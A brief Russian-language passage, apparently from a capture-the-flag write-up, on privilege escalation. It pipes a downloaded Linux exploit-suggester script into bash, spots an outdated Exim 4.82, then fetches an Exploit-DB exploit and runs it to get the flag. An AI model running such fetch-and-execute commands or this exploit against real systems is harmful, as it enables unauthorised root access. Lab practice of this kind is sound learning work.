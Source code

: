 
Устанавливаем и запускаем  [Linux exploit suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O - | bash

```
Устанавливаем wget https://www.exploit-db.com/raw/39535 -O expl.sh  тк exim -bV
Exim version 4.82 #2 built 25-Feb-2014  устаревшая версия
запускаем bash expl.sh и забираем флаг